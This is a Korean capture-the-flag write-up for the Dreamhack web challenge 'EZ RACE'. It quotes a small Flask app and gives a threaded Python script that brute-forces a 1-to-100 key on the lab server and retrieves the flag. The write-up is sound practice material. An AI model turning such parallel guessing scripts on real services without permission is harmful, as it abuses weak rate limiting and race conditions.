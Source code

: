 ```yaml
---
layout: post
title: "[DH]EZ RACE"
date: 2025-08-07 19:41 +0900
category: Write-Up
tag: [dreamhack, web]
---
```

### **INFO**
![chall]
_Fig 1. Challenge_

requests와 theared 모듈을 사용한 병렬처리가 주요 포인트이다.

### **RECON**

문제는 매우 간단하다. Flask로 구성된 웹 서버의 파일(app.py)이 주어진다.

/race 경로에 1에서 100사이의 user 값을 쿼리로 입력하고, 운이 좋게 맞으면 플래그를 획득할 수 있는 상태가 된다.
그 후, /flag 경로에서 플래그를 가져가면 된다.

```py
@app.route('/race')
def race():
    global getflag, key

    user_input_str = request.args.get('user')
    userinput = int(user_input_str)

    if userinput == key:
        getflag = 1
        return "WOW"
    else:
        time.sleep(3)
        key = random.randint(1, 100)    # 1~100 사이의 값
        return "NOPE"

@app.route('/flag')
def flag():
    global getflag   
    if getflag == 1:
        getflag = 0
        return f"FLAG IS {FLAG}"        # 플래그 획득
    else:
        return "NOPE!!"
```

### **SOLUTION**

requests 모듈을 사용하여, 경로 `/race?user={RANDOM_VALUE}`에 get 요청을 보내주면 WOW 혹은 NOPE 응답을 받을 수 있다.

이 때, WOW 응답을 받은 상태에서 경로 `/flag`에 get 요청을 보내면 플래그를 획득 할 수 있다.

소스 코드에 3초룰을 지키지 않아도, 제한이 따로 없어서 필자는 그냥 300초를 기다린다는 마음으로 처음 시도에는 병렬처리를 하지 않고 풀었다.
![chim]
_Fig 2. ???: 전 시간 빌게이츠예요!_
그래도 write-up을 쓸 때는 출제자의 의도에 맞게 threading까지 써서, 3초안에 해결되게 만들었다. 하핳ㅎ

### **POC**

```py
import requests
import threading

url = 'http://host8.dreamhack.games:14889'

def check(rint):
    res = requests.get(url+f"/race?user={rint}")
    if (res.text == "WOW"):
        re = requests.get(url+"/flag")
        print(re.text)

threads = []
for i in range(1, 101):     # 1~100 사이의 값
    t = threading.Thread(target=check, args=(i,))
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```


[chall]: /assets/DreamHack/ezrace/challenge.png
[3rule]: /assets/DreamHack/ezrace/solution_3rule.png
[chim]: /assets/DreamHack/ezrace/solution_chim.png